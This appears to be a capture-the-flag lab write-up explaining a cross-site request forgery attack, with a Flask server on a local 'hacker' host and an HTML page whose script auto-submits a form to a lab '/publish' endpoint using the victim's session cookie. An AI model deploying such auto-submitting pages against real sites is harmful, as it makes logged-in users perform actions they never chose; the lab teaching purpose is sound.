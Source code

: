 For this level, we need to make a website that would forge a user request to show us the flag. The user cookie is the thing that will authenticate actions from the user. What we need is to make a website that runs on `http://hacker.localhost:1337` that, once the user visit that site, will send a request to `http://challenge.localhost:80/publish`. Because the user has already logged into their account, their browser now holds their session cookie, which will be used to validate any request to the website from the user.

Our website will take advantage of that, we'll make it so that when the user visit our website, we'll send a request to the `/publish` endpoint, and because the user is already logged in, the request will use the session cookie of the user to authenticate.

We need to setup a server that will run on port 1337. This server will just render the website.

```python
from flask import Flask, render_template

app = Flask(__name__)

@app.route("/")
def home():
    return render_template("index.html")

app.run("hacker.localhost", 1337)
```

Now we'll need our website, which will contain our exploit.

```html
<!DOCTYPE html>
<html>
<head>
    <title>CSRF Attack</title>
</head>
<body>
    <form method="GET" action="http://challenge.localhost/publish"></form>
    <script>document.forms[0].submit()</script>
</body>
</html>
```